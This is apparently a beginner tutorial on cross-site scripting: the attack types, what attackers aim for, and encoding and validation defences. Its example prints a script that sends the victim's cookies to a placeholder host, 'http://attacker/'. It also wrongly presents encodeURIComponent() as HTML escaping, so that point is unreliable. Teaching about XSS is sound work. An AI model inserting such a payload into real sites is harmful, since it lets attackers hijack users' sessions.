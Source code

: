 # HTML Injections

##What are HTML script injections?

HTML injections are more commonly known as **Cross-site Scripting** – aka **XSS** (not CSS, to avoid confusion with stylesheets!). XSS refers to a **code-injection attack**, in which an attacker executes malicious scripts in a legitimate website by injecting code into a HTML element, most usually a user input form. If the website directly includes user input in its pages, the attacker can input a string that will be treated as code by the victim's browser and executed.

The two most common types of XSS are **Non-Persistent XSS** and **Persistent XSS**:

####Non-Persistent XSS

* The most regularly seen cross-site vulnerability
* Also known as **Reflected XSS**. 
* The attack is carried out through a single request/response cycle: the payload is not stored anywhere, but returned as part of the response HTML that the server sends.

####Persistent XSS

* Occurs when XSS vectors are stored in the compromised website's database and executed when a certain page is opened by the user.
* More harmful than non-persistent XSS, as the script will quietly automatically execute whenever a user opens the infected page.

A third category exists - **DOM-based XSS**. This occurs when the XSS vector executes as a result of DOM modification on a website in a user's browser. DOM-based XSS is the most advanced and least common type of XSS.

All three forms of XSS attack have a similar process:

![Diagram demonstrating the process of an XSS attack](diagram.png)

An attacker generally has one of four aims when executing an XSS attack:

* Session hijacking: Stealing the cookie(s) of a victim in order to impersonate them
* Browser hijacking: Redirecting a victim's browser to a web page specified by the attacker, or having the browser perform certain actions in a web app
* Redirecting form actions: Compromising a form to have user information sent to their computer alongside the intended destination
* Changing the appearance of a web page: Modifying a web page to lure a victim into giving up information


##What are some examples?

Let's say an attacker wants to steal a victim's cookies. This can be done through a persistent XSS attack. The attacker's goal is to have the victim's browser parse this **malicious script**:

```<script>
window.location='http://attacker/?cookie='+document.cookie
</script>```

The script triggers an HTTP request to the attacker's server. The URL includes the victim's cookies as a query paramater, which the attacker can then extract from the request when it arrives at their server and use to impersonate the victim. 

The attacker submits the malicious script as a user input to one of the website's forms, thus inserting the script into the website's database through a `POST` request. For instance, the script could be posted as a comment on an unsecure blog.

When the victim visits the compromised blog, their browser makes a `GET` request in order to access the comments. The blog's HTTP response includes the malicious script, which executes and triggers a HTTP request to the attacker's server.


##How can you protect against them in your apps?

XSS attacks can be prevented through **secure input handling**. This can be performed in two ways:

####Encoding
Encoding user input ensures that the browser interprets it only as data, not as code. This is most commonly done through **HTML escaping**, in which special characters are escaped: ``&`` becomes ``&amp;``, ``<`` becomes ``&lt;``, and ``>`` becomes ``&gt;`` for instance.

If our attacker's malicious script was encoded, the browser would read it as:

``&lt;script&gt;
window.location='http://attacker/?cookie='+document.cookie
&lt;/script&gt;``

And it wouldn't run.

JavaScript has built in functions to encode and decode special characters in a string: ``encodeURIComponent()`` and ``decodeURIComponent()``.

####Validation

Encoding should be your first line of defence against XCC attacks, but it has some limitations. For instance, if user input is used to provide URLs, an attacker could still insert a URL beginning with ``javascript:``, which would execute code embedded in the address. In this case, you would want to bolster your defence with validation.

Validation is the act of filtering user input to ensure any malicious elements are removed. The easiest way to do this is through **whitelisting** - defining an allowed pattern and marking any input that doesn't match it as invalid. For instance, a form to accept a user's phone number could mark any input that contained something other than a number as invalid. In the case above, a URL would be marked as invalid if it contained a protocol other than ``HTTP:`` or ``HTTPS:``

There are two approaches you can take to invalid inputs – rejection and sanitation:

* Rejection will, as the name suggests, simply reject the input, preventing it from being used elsewhere in the website
* Sanitation will remove all invalid parts of the input, with the remaining input being free to be used normally by the website

While rejection is simplest to implement, sanitation often provides the best user experience – if a user includes hyphens while submitting their credit card number, for example, a sanitation routine that removes all non-digit characters will prevent an XSS attack without forcing the user to resubmit. 

  